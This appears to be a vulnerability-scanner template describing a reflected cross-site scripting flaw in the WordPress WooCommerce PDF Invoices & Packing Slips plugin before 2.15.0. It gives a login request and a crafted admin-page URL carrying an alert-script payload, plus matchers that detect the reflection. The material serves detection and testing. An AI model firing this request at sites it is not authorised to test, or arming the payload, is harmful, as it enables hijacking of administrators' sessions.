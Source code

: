 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress WooCommerce PDF Invoices & Packing Slips \<2.15.0 - Cross-Site Scripting

## Description

- WordPress WooCommerce PDF Invoices & Packing Slips 2.15.0 does not escape some URLs before outputting them in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,woocommerce,authenticated,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=wpo_wcpdf_options_page&tab=documents&section=invoice&"><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. > \<script>alert(document.domain)\</script>
  2. WooCommerce PDF Invoices
- condition - and
